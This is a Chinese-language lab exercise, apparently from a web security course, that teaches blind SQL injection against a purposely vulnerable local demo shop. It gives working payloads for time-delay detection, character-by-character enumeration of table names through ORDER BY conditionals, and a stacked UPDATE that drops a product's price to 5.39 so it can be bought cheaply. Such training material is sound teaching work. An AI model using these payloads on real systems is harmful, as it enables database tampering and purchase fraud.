









# 透過漏洞修改商品價格，低價購入

## 目標

>本章練習從修改 URL 來發現是否有 SQL Injection 的漏洞，並利用該漏洞來修改商品價格，讓 小R 低價購入商品

## 練習步驟

### 1.找出疑似 SQL Injection 功能

1. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/>**

2. 在 Search Box 中輸入 mac ，查看 MacBook Pro 價格，需要 53,900 元

    

3. 按下「**Detail**」 Button，查看其他人的評價

4. 評論蠻多的，可透過 UserID or Comments 來排序，按下 UserId or Comments 來查看大家的評論

5. 大家的評論還 OK，但價格蠻高的，是否有什麼漏洞可以改它的價格，讓我可以低價購買呢?

6. 按下 UserID or Comments 來排序時，URL 上同時會有 UserID or Comments ，很有可能會有 SQL Injection 的問題

    

7. 所以將 URL 上面的 **UserId** 改成 **UserIa** ，會發現導到了錯誤畫面。

    

8. 一般的 SQL ， Order By 可以使用多個欄位，所以可以把 **UserId** 改成 **UserId,1** ，畫面又可以正常顯示

    

9. 再將 **UserId** 改成 **UserId, a** ，畫面又導到了錯誤畫面。

    

10. 這支功能似乎有 Blind SQL Injection 的問題

### 2.SQL Injection 常用手法介紹

1. 開啟 Visual Studio 「**SQL Server 物件總管**」視窗，點開 **(localdb)\MSSQLLocalDB (SQL Server ....)** => **資料庫** => **範例路徑\Store.MDF**

    > 也可以使用 SSMS 連接 (localdb)\MSSQLLocalDB

2. 在 **範例路徑\Store.MDF** 上按右鍵，選擇「**新增查詢**」

    

3. WaitFor Delay

    ```sql
    Select GetDate() as BeforeDate;
    WaitFor Delay '00:00:05'; -- 等 5秒
    Select GetDate() as AfterDate;
    ```

4. 取得前幾筆資料 Top N

    ```sql
    --取得前幾筆資料
    SELECT Top 2 *
    FROM Users A1
    Order By A1.Email
    ```

5. 取得**第N筆資料**
    因為要取出一筆資料，所以使用 Top 1，但因為要取**第N筆資料**，所以先取出前幾筆 (Top N) 後，再反過來排序取 Top 1

    ```sql
    SELECT Top 1 *
    -- cindy
    From (
    SELECT Top 2 *
    -- admin
    -- cindy
    FROM Users A1
    Order By A1.Email 
    ) B
    Order By B.Email Desc
    ```

    

6. 讓 SQL 發生錯誤

    ```sql
    Select Convert(int, 'a');
    ```

### 3.驗證是否有 SQL Injection

1. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID>**，按下 Enter ，可以發現畫面很快就呈現出來。

2. 在 Url 後面多加入 「**;WaitFor Delay '00:00:05';--**」，Url 為 **<http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID;WaitFor%20Delay%20%2700:00:05%27;-->**，按下 Enter ，可以感覺得到畫面要等5秒後才會呈現。

3. 再調整 WaitFor Delay 的時間，就會回依時間回應。所以確認這功能有 SQL Injection 的問題。

### 4.修改商品價格

1. 確認商品詳細功能有 SQL Injection 的問題，它可以被注入 SQL ，但卻不知它商品的資料表及欄位

2. MSSQL 資料表的相關資料為 **sys.tables** 及 **INFORMATION_SCHEMA.COLUMNS**

    ```sql
    SELECT name FROM sys.tables; 
    Select TABLE_NAME, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS;
    ```

3. 如果想要知道**商品**資料表及欄位，就需要用猜的方式，如果猜對，SQL 就回傳 1。猜錯就讓 SQL 發生錯誤。

    ```sql
    --原本的SQL
    SELECT * FROM Votes 
    Where ProductID = 13
    Order By UserID;

    --Order By UserID, 1
    SELECT * FROM Votes 
    Where ProductID = 13
    Order By UserID, 1;

    --Order By UserID, Convert(int, 'a')
    SELECT * FROM Votes 
    Where ProductID = 13
    Order By UserID, Convert(int, 'a');
    ```

    ```sql
    --Product
    --P
    SELECT Top 1 substring(A2.name, 1, 1) 
    From (SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 
    Order By A2.name Desc;
    --r
    SELECT Top 1 substring(A2.name, 2, 1) 
    From (SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 
    Order By A2.name Desc;
    --o
    SELECT Top 1 substring(A2.name, 3, 1) 
    From (SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 
    Order By A2.name Desc;
    -- ...
    ```

    ```sql
    --第一個單字為 P，不是 a ，所以這個SQL會發生錯誤
    SELECT * FROM Votes 
    WHERE ProductID = 13
    Order By UserID
    ,Case When (SELECT Top 1 substring(A2.name, 1, 1) 
    From ( SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'a' 
    Then 1
    Else convert(int, 'x') End;

    --第一個單字為 P，所以這個SQL沒問題
    SELECT * FROM Votes 
    WHERE ProductID = 13
    Order By UserID
    ,Case When (SELECT Top 1 substring(A2.name, 1, 1) 
    From ( SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'p' 
    Then 1
    Else convert(int, 'x') End;
    ```

4. 在 URL <http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID> 後面輸入 **,case when (SELECT Top 1 substring(A2.name, 1, 1) From ( SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'a' then 1  else convert(int, 'x') end**，則會切到錯誤畫面，因為第一個資料表名稱的第一個字不為 a 。

5. 在 URL <http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID> 後面輸入 **,case when (SELECT Top 1 substring(A2.name, 1, 1) From ( SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'p' then 1  else convert(int, 'x') end**，畫面會正常顯示，沒有錯誤，表示猜到了第一個資料表名稱的第一個字。

6. 因為看不到結果，只能用 true or false 猜的方式，所以這種也叫 Blind SQL Injection。

7. 接下來請猜一猜 **第二個資料表名稱的第一個字**，在 URL <http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID> 後面輸入

    ```sql
    ,case when (SELECT Top 1 substring(A2.name, 1, 1) From ( SELECT Top 2 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'u' then 1  else convert(int, 'x') end
    ```

8. 因為有固定的模式可以使用，所以可以透程式來幫我們猜出來。所以開啟 Guessing\bin\Debug\Guessing.exe，按下「**猜 TableName**」可以猜出 **PRODUCT**。按下「**猜 Columns**」可猜出商品的所有欄位。

    

9. 找出商品資料表及欄位，就可以執行更新商品價格的 SQL，將價格改成 **5.39**元。所以在 URL <http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID> 後面輸入 **;Update PRODUCTS Set PRICE = 5.39 Where PRODUCTID = 13;--**

    

10. 當 Macbook Pro 價格變成了 5.39 元，請登入進行購買 ^_^。

>SQL Injection 的修正請參考 todo: Session-3-2. Blind SQL Injection Fix
>
>除了猜 TableName 外，您可以試著猜 DatabaseName 然後進行跨 Db 存取

[Back](./../../readme.md)
